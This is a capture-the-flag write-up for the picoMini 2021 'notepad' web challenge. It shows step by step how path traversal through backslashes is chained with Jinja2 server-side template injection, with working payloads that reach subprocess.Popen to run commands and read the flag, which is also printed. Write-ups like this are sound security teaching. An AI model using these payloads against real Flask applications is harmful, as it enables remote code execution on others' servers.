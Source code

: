 ```yaml
---
title: picoMini by redpwn 2021 - notepad (web)
date: 2021-05-12
slug: /writeups/picomini-redpwn-notepad
excerpt: Writeup for notepad (web)
author: Diana Lin
---
```


Notepad was a web exploitation challenge from picoMini by redpwn 2021.

# Description
> This note-taking site seems a bit off.
>
> notepad.mars.picoctf.net

Files:
* [notepad.tar](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar)

The application is a simple note-taking site. When a new note is created, a file in the static folder is created, and the client is redirected to the file.

# Directory Traversal
We were provided a source so I checked that out. I first noticed the filters on the note's `content`.
```py
if "_" in content or "/" in content:
    return redirect(url_for("index", error="bad_content"))
```

The filter on `/` indicates that path traversal should be prevented. However, the created file's `name` looks odd.
```py
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
```

The filename is the first 128 characters of the content and a random token. It's a bit weird that they're normalizing the path with `url_fix(content[:128])`; that's our first vulnerability. Even though `/` is filtered, `\` is not, and `url_fix()` would normalize the backslashes to be `/`. We could use this to traverse the filesystem.

# Arbitrary Template Creation
Remember that error from the filter on `content`? That comes in handy now. On the index page, the error can be set to any arbitrary value by simply passing in another value to the `error` query parameter:
```
https://notepad.mars.picoctf.net/?error=error_name
```

This value is then used as the filename for a Jinja template in the `errors` subdirectory.
```html
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
```

How is this useful? Well, we can create our own error template by using our path traversal technique to create a file in the `templates/errors` folder. This new template can then be rendered on the index page if we pass it in as a query parameter.

We can test a sample payload now:
```
..\\templates\\errors\\
```

If we paste that into the text area on the index page and submit, we get redirected to a `Not Found` error page. Not to worry! Since we wrote to a file outside of the static folder, we can't access it from `/static/...`, which resulted in the 404. However, we can check out our payload by passing our filename (minus extension) into `error`. The path I got redirected to was `///templates//errors//-7-kh4_p7dTY.html` so I went to:
```
https://notepad.mars.picoctf.net/?error=-7-kh4_p7dTY
```

Lo and behold, our payload was printed back to us!

# SSTI Injection
Since the error page is included as a Jinja template and not as a static page, we can utilize a server-side template injection to retrieve the flag. I found a great [reference](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) that detailed how to implement a SSTI injection with the Jinja template engine.

After the path of the `errors` folder, I padded the payload with `a` characters so that none of the injection was stored in the filename. While this is optional, I found that it made the request much cleaner because the filename isn't url encoded.

The next step is to find the `string` class. This is usually done with `''.__class__` but because of the filter on underscores, we can't insert `__class__` directly into the `content` parameter. We can, however, insert it into a different query parameter and reference it that way. We can then get the string class's [method resolution order](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/) using `mro()`.

The second class in the `string` class's MRO is the `object` class so we can index to 1.
```py
[<class 'str'>, <class 'object'>]
```

If we call `object.__subclasses__()`, we can access all the classes that are available. Since underscores are filtered, we can access the function the same way we accessed `__class__`. Our full payload is now:
```py
p = "..\\templates\\errors\\" + "a" * 128 + "{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]() }}"
```

When we access the index page with the filename passed into `error`, we get an internal server error. This is because we didn't pass in the `class` or `subclasses` query parameters. After setting them to `__class__` and `__subclasses__`, respectively, [a whole bunch of stuff is rendered](https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-oiv7lSJ0KoY&class=__class__&subclasses=__subclasses__).

Nice! We got a whole bunch of classes from that. The most important of those is `subprocess.Popen`. To find the index of that class more easily, I pasted the stringified list into a Python shell (as a string), split the list on `, `, and called `l.index(" <class 'subprocess.Popen'>")` to find that the `subprocess.Popen` class is at index 273. That means that we can create a new `Popen` object to execute some pretty useful commands.

The provided Dockerfile showed that the flag is located in the app's root directory with a random UUID appended to it. Therefore, we need to find the flag's filename; we can `ls` the root directory and return the result with this injection:
```py
{{ ''[request.args.get('class')][request.args.get('mro')][1][request.args.get('subclasses')]()[273](['ls'], stdout=-1).communicate() }}
```

The flag's filename is `flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`. Last but not least, we can `cat` the flag:
```py
{{ ''[request.args.get('class')][request.args.get('mro')][1][request.args.get('subclasses')]()[273](['cat', 'flag-c8f5526c-4122-4578-96de-d7dd27193798.txt'], stdout=-1).communicate() }}
```

# Flag
```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```
